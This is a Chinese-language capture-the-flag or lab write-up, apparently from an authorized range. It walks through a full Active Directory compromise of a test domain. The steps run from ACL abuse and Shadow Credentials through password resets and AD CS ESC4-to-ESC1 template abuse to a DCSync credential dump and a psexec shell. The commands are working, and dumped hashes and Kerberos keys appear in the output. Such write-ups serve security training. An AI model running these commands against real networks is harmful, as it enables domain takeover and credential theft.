bloodyad_summary.py --dc 192.168.111.10 --user Moly --password mahalkita

[HIGH] Dev
  DN: CN=Dev,DC=sec,DC=org
  [HIGH  ] member                                           WRITE
           └─ 可以修改组成员
              类似 BloodHound 的 AddMember
  [HIGH  ] nTSecurityDescriptor                             WRITE
           └─ 可以修改对象安全描述符/DACL
              可能对应 WriteDACL 或更广泛的安全描述符写权限
  [HIGH  ] OWNER                                            WRITE
           └─ 可以修改对象所有者
              类似 BloodHound 的 WriteOwner
  [HIGH  ] userPassword                                     WRITE
           └─ 可以写入 userPassword 属性
              不一定等价于 Windows 密码重置

[HIGH] Moly
  DN: CN=Moly,CN=Users,DC=sec,DC=org
  [HIGH  ] msDS-AllowedToActOnBehalfOfOtherIdentity         WRITE
           └─ 可以修改基于资源的约束委派属性
              可能形成 RBCD 路径

[MEDIUM] _msdcs.sec.org
  DN: DC=_msdcs.sec.org,CN=MicrosoftDNS,DC=ForestDnsZones,DC=sec,DC=org
  [MEDIUM] dnsNode                                          CREATE_CHILD
           └─ 可以创建或修改 DNS 节点
              可能影响域内名称解析
  [MEDIUM] dnsZoneScopeContainer                            CREATE_CHILD
           └─ 可以创建 DNS Zone Scope 子对象
              属于 DNS 对象写权限

[MEDIUM] sec.org
  DN: DC=sec.org,CN=MicrosoftDNS,DC=DomainDnsZones,DC=sec,DC=org
  [MEDIUM] dnsNode                                          CREATE_CHILD
           └─ 可以创建或修改 DNS 节点
              可能影响域内名称解析
  [MEDIUM] dnsZoneScopeContainer                            CREATE_CHILD
           └─ 可以创建 DNS Zone Scope 子对象
              属于 DNS 对象写权限

========================================================================
对象数量：4
关键权限：9
```

- 查看`Dev` 组内用户

```ps1
# bloodyAD --host 192.168.111.10 -d sec.org -u Moly -p 'mahalkita' get object 'CN=Dev,DC=sec,DC=org' --attr member
distinguishedName: CN=Dev,DC=sec,DC=org
member: CN=John,CN=Users,DC=sec,DC=org; CN=Jim,CN=Users,DC=sec,DC=org; CN=Cook,CN=Users,DC=sec,DC=org

# John
# Jim
# Cook
```

- 查**所有组及其不同名称属性**

```ps1
# bloodyAD --host 192.168.111.10 -d sec.org -u Moly -p 'mahalkita' get search --filter '(objectClass=group)' --attr cn,name,sAMAccountName,displayName,distinguishedName


...
distinguishedName: CN=HR,DC=sec,DC=org
cn: HR
name: HR
sAMAccountName: 人事部

distinguishedName: CN=IT,DC=sec,DC=org
cn: IT
name: IT
sAMAccountName: 运维部

distinguishedName: CN=Dev,DC=sec,DC=org
cn: Dev
name: Dev
sAMAccountName: 开发部

distinguishedName: CN=CEO,DC=sec,DC=org
cn: CEO
name: CEO
sAMAccountName: CEO

distinguishedName: CN=New,DC=sec,DC=org
cn: New
name: New
sAMAccountName: New

# cn = 文件夹名字（LDAP 路径用，显式英文）。
# name = 界面显示的标签（通常和 cn 一样）。
# sAMAccountName = 真正用于登录/授权的“江湖名号”（在你的环境里是中文业务名）。
```

‍

## Shadow Credentials-Moly-2-Cook

- [InternalAllTheThings/docs/active-directory/pwd-shadow-credentials.md at main ·swisskyrepo/InternalAllTheThings](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/pwd-shadow-credentials.md)



**要求**：

- 至少在 Windows Server 2016 上的域控制器
- 域必须有Active Directory并配置好`Certificate ServicesCertificate Authority`
- PKINIT Kerberos 认证
- 一个拥有写入目标对象属性权限的委托权限的账户`msDS-KeyCredentialLink`

‍

```ps1
# 加入 Dev
# bloodyAD --host 192.168.111.10 -d sec.org -u Moly -p 'mahalkita' add groupMember 'CN=Dev,DC=sec,DC=org' Moly
[+] Moly added to CN=Dev,DC=sec,DC=org
# ➜  bloodyAD bloodyAD --host 192.168.111.10 -d sec.org -u Moly -p 'mahalkita' get membership Moly

distinguishedName: CN=Users,CN=Builtin,DC=sec,DC=org
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Domain Users,CN=Users,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-513
sAMAccountName: Domain Users

distinguishedName: CN=HR,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-1111
sAMAccountName: 人事部

distinguishedName: CN=Dev,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-1113
sAMAccountName: 开发部
```

‍

- 对 Cook 执行 Shadow Credentials

```ps1
➜  bloodyAD certipy-ad shadow auto -u 'Moly@sec.org' -p 'mahalkita' -dc-ip 192.168.111.10 -account Cook
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting user 'Cook'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '7401f3515e214cc7be1420dc6f1fe0b8'
[*] Adding Key Credential with device ID '7401f3515e214cc7be1420dc6f1fe0b8' to the Key Credentials for 'Cook'
[*] Successfully added Key Credential with device ID '7401f3515e214cc7be1420dc6f1fe0b8' to the Key Credentials for 'Cook'
[*] Authenticating as 'Cook' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'cook@sec.org'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'cook.ccache'
[*] Wrote credential cache to 'cook.ccache'
[*] Trying to retrieve NT hash for 'cook'
[*] Restoring the old Key Credentials for 'Cook'
[*] Successfully restored the old Key Credentials for 'Cook'
[*] NT hash for 'Cook': 8ac71e8fdb3f7468c3b0d80611dee7e4
```

‍

## Cook->Jock

Cook 可以修改 jock 的密码



- 修改`Jock`的密码

```ps1
bloodyAD --host 192.168.111.10 -d sec.org -u Cook -p ':8ac71e8fdb3f7468c3b0d80611dee7e4' set password Jock 'JockTemp@2026!'
```

- 验证凭据

```py
# nxc ldap 192.168.111.10 -u Jock -p 'JockTemp@2026!'
LDAP        192.168.111.10  389    AD               [*] Windows 10 / Server 2016 Build 14393 (name:AD) (domain:sec.org) (signing:None) (channel binding:Never)
LDAP        192.168.111.10  389    AD               [+] sec.org\Jock:JockTemp@2026!
# nxc smb 192.168.111.10  -u Jock -p 'JockTemp@2026!'
SMB         192.168.111.10  445    AD               [*] Windows Server 2016 Standard 14393 x64 (name:AD) (domain:sec.org) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         192.168.111.10  445    AD               [+] sec.org\Jock:JockTemp@2026!
```

‍

- 方法2

```ps1
# 先利用 Cook 的 hash 修改 Cook 自身的里面
impacket-changepasswd -hashes :8ac71e8fdb3f7468c3b0d80611dee7e4 sec.org/Cook@192.168.111.10 -newpass '123456'

# 修改 Jock 的密码为 123456
net rpc password "Jock" -U "sec.org"/"Cook"%"123456" -S 192.168.111.10
```

‍

## Jock -> MHT



表示 ​**Jock 对 MHT 用户对象拥有完全控制权**。在授权靶场中，Jock 通常可以重置 MHT 密码、修改 DACL、写入 Shadow Credentials、修改 SPN 等。

```ps1
bloodyAD --host 192.168.111.10 -d sec.org -u Jock -p 'JockTemp@2026!' set password MHT 'JockTemp@2026!-1'
[+] Password changed successfully!
```

- 验证



‍

## mht

收集下信息

```ps1
# bloodyAD -H 192.168.111.10 -d sec.org -u mht -p 'JockTemp@2026!-1' get membership mht

distinguishedName: CN=Users,CN=Builtin,DC=sec,DC=org
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Domain Users,CN=Users,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-513
sAMAccountName: Domain Users

distinguishedName: CN=Cert,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-1104
sAMAccountName: Cert

distinguishedName: CN=CEO,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-1114
sAMAccountName: CEO
```

- `get membership` 默认可能包含递归组关系。只看直接成员关系

```ps1
# bloodyAD -H 192.168.111.10 -d sec.org -u mht -p 'JockTemp@2026!-1' get membership mht --no-recurse

distinguishedName: CN=Cert,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-1104
sAMAccountName: Cert

distinguishedName: CN=CEO,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-1114
sAMAccountName: CEO
```

有个 Cert

‍

- 枚举 **MHT 有权申请的已启用模板**

```ps1
# certipy-ad find -u 'mht@sec.org' -p 'JockTemp@2026!-1' -dc-ip 192.168.111.10 -enabled -stdout

[*] Finding certificate templates
[*] Found 32 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 10 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sec-AD-CA' via RRP
[*] Successfully retrieved CA configuration for 'sec-AD-CA'
[*] Checking web enrollment for CA 'sec-AD-CA' @ 'ad.sec.org'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sec-AD-CA
    DNS Name                            : ad.sec.org
    Certificate Subject                 : CN=sec-AD-CA, DC=sec, DC=org
    Certificate Serial Number           : 37AE081BC4D172904CD68DA9BEFAEA08
....
```

‍

`MHT`​ 通过 `Cert`​ 组对 **User** 模板拥有注册权限；该模板已启用，并包含 `Client Authentication`​。CA 名称是 `sec-AD-CA`​，CA 主机是 `ad.sec.org`

‍

AD CS 配置和漏洞

```text
CA：sec-AD-CA
CA 主机：ad.sec.org
User 模板已启用
MHT 属于 Cert 组
Cert 对 User 模板拥有 WriteOwner / WriteDACL
漏洞：ESC4
```

‍

- 利用 ESC4，把 User 模板改为 ESC1

- Certipy 5.0.4 的参数不接受 SID，正确写法：

```ps1
certipy-ad template -u 'mht@sec.org' -p 'JockTemp@2026!-1' -dc-ip 192.168.111.10 \
-template 'User' -write-default-configuration -no-save -force
```



‍

```ps1
certipy-ad find -u 'mht@sec.org' -p 'JockTemp@2026!-1' -dc-ip 192.168.111.10 -enabled -vulnerable -stdout
```

- 验证模板已变成 ESC1

确认到了：

```
ESC1
ESC15
ESC4
```



‍

```ps1
ntpdate -4 -b 192.168.111.10


# 为 Administrator 申请证书
# 由于默认 SMB/命名管道 RPC 超时，改用动态 RPC Endpoint：
certipy-ad req -u 'mht@sec.org' -p 'JockTemp@2026!-1' -dc-ip 192.168.111.10 \
-target 'ad.sec.org' -target-ip 192.168.111.10 -ca 'sec-AD-CA' \
-template 'User' -upn 'administrator@sec.org' \
-sid 'S-1-5-21-2688985321-3766267280-2512124731-500' -out 'administrator.pfx' \
-dynamic-endpoint -timeout 30

# 使用证书认证为 Administrator
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.111.10
```

‍



‍

- 整条攻击路径

  ```
  → MHT 是 Cert 组成员
  → Cert 对 User 证书模板有 ESC4 权限
  → 将 User 模板修改为 ESC1
  → MHT 申请 Administrator 身份证书
  → 使用证书获得 Administrator TGT 和 NT Hash
  → 使用 Administrator 身份执行 DCSync
  → 完全控制 SEC.ORG 域
  ```

‍

```ps
Moly → Dev → Cook → Jock → MHT → Cert → User Template
                                               │
                                           ESC4 → ESC1
                                               │
                                    Administrator Certificate
                                               │
                                  TGT / NT Hash → DCSync
                                               │
                                        Domain Compromise
```

‍

## admin

```ps
impacket-secretsdump 'sec.org/administrator@192.168.111.10' -hashes ':6f4009ffe6f419f6ebef8c5c4495f26f' -just-dc -target-ip 192.168.111.10
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6f4009ffe6f419f6ebef8c5c4495f26f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:279e266d2747d0662e33c1b46b9da51b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sec.org\mht:1103:aad3b435b51404eeaad3b435b51404ee:da84fdcc8b028b474e2b3edbc68b9ef3:::
sec.org\lily:1132:aad3b435b51404eeaad3b435b51404ee:ded11e1ddc1c3e503280098610e0a54e:::
sec.org\newmht:1134:aad3b435b51404eeaad3b435b51404ee:0325cfe5a76c3d9f9fbabef928c2c83c:::
Cook:1135:aad3b435b51404eeaad3b435b51404ee:8ac71e8fdb3f7468c3b0d80611dee7e4:::
Jim:1136:aad3b435b51404eeaad3b435b51404ee:d676f9a84dd63248b27d65e988c22c03:::
John:1137:aad3b435b51404eeaad3b435b51404ee:2fd49537c8e1a5050a874cd212a26588:::
Moly:1138:aad3b435b51404eeaad3b435b51404ee:ded11e1ddc1c3e503280098610e0a54e:::
Jock:1601:aad3b435b51404eeaad3b435b51404ee:3e2da9f6c8d66b8f54715cf5c525a7fb:::
AD$:1000:aad3b435b51404eeaad3b435b51404ee:af09c873164ed481ecf0f6230966d0ad:::
[*] Kerberos keys grabbed
Guest:aes256-cts-hmac-sha1-96:0194cc5df86f528d5ad89b52a2dca7c22807578397eacabefecea4e00a00e433
Guest:aes128-cts-hmac-sha1-96:d3d0b5d060e4d3806aade76b7aeed723
Guest:des-cbc-md5:cb7fc7dc0d868c80
krbtgt:aes256-cts-hmac-sha1-96:7c4b092e81005317f5a607057827aa2fed6d1efda3e3459199b04791501f5cb3
krbtgt:aes128-cts-hmac-sha1-96:a611f3b4fda6e9610fc793bf33570118
krbtgt:des-cbc-md5:e65245c11c31522c
sec.org\mht:aes256-cts-hmac-sha1-96:6055cc34d86c5a207be2fc5720377aeebf33d9bc7b291df9ce8e29367b729122
sec.org\mht:aes128-cts-hmac-sha1-96:b3523af03967f06ae1c282a5cfd4b302
sec.org\mht:des-cbc-md5:1634c283d5257a16
sec.org\lily:aes256-cts-hmac-sha1-96:ee4caacb26054b9f430a5b9aec961c7426f292b711f3813ef7ddcd0c82a27c41
sec.org\lily:aes128-cts-hmac-sha1-96:54278c5b39a91be7b110eb07a3a72ad4
sec.org\lily:des-cbc-md5:c23bbca4105e3434
sec.org\newmht:aes256-cts-hmac-sha1-96:ea768bbca65ddc445da8949d4a8b8ba333abffd1face063c6727b43ad39dfcd7
sec.org\newmht:aes128-cts-hmac-sha1-96:b4aacb22a95f832ecc2cd89497e8d145
sec.org\newmht:des-cbc-md5:4a4faead43853297
Cook:aes256-cts-hmac-sha1-96:0cb92f26d8bed429443cd3f4e70739f22b2a21c380d179eb7bc393e1c2db436f
Cook:aes128-cts-hmac-sha1-96:24335d51113f3645eaaef0ebe94f3c88
Cook:des-cbc-md5:4f98cdb69d67f116
Jim:aes256-cts-hmac-sha1-96:1b2117c0a6fae32f18db98417d99882fdeacc3ed66a1245ba1fe32dbf14651a8
Jim:aes128-cts-hmac-sha1-96:c1cd67a7d193a7614e817bfb0403eecf
Jim:des-cbc-md5:6285d625e3496757
John:aes256-cts-hmac-sha1-96:282cbf659c6314f260dcb63951080ac931ebb2562954a4af41f94468fc16b8a4
John:aes128-cts-hmac-sha1-96:ff992dbd77878c519065a05043e491cc
John:des-cbc-md5:fb25e9459462a4c7
Moly:aes256-cts-hmac-sha1-96:387113738026c6dbed871bc20871f960583e940601e8a0f4ae3b3680329fe0eb
Moly:aes128-cts-hmac-sha1-96:4d7c06c6437449b0d6ea2cd978a26bd2
Moly:des-cbc-md5:253e4a8cdc80c42c
Jock:aes256-cts-hmac-sha1-96:af634c27db23d0a5f277609cd81bab445780664acc12e7ee3af4a096f5185366
Jock:aes128-cts-hmac-sha1-96:332591dece3b2ff30ccb50fcea11d1ae
Jock:des-cbc-md5:976d2c8a8968617f
AD$:aes256-cts-hmac-sha1-96:4737791f97d13aaf491d3a11c5863d4e9f9249433c18c51a8132ea6256ecae5a
AD$:aes128-cts-hmac-sha1-96:ff4e75beb3daa32284333fefec816a5a
AD$:des-cbc-md5:a246d6250e68f88f
[*] Cleaning up...
```

‍

```ps1
# impacket-psexec -hashes ':6f4009ffe6f419f6ebef8c5c4495f26f' 'sec.org/Administrator@192.168.111.10'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 192.168.111.10.....
[*] Found writable share ADMIN$
[*] Uploading file gEFcsAzm.exe
[*] Opening SVCManager on 192.168.111.10.....
[*] Creating service EJaU on 192.168.111.10.....
[*] Starting service EJaU.....
[!] Press help for extra shell commands
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
Microsoft Windows [�汾 10.0.14393]

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
(c) 2016 Microsoft Corporation����������Ȩ����


C:\Windows\system32> type \flag.txt
73226d151b52a361329e0c91ab7002a
```
